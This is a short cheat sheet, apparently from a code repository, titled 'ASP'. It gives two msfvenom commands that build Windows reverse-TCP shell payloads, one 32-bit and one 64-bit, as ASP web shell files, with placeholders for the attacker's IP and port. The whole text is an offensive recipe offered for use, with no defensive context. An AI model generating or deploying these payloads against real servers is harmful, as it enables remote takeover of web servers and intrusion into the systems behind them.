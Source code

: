# ASP

1. x86 (32-bit) Payloads

`$ msfvenom -p windows/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x86.asp`

2. x86_64 (64-bit) Payloads

`$ msfvenom -p windows/x64/shell/reverse_tcp lhost=<IP> lport=<PORT> -f asp -o shell-x64.asp`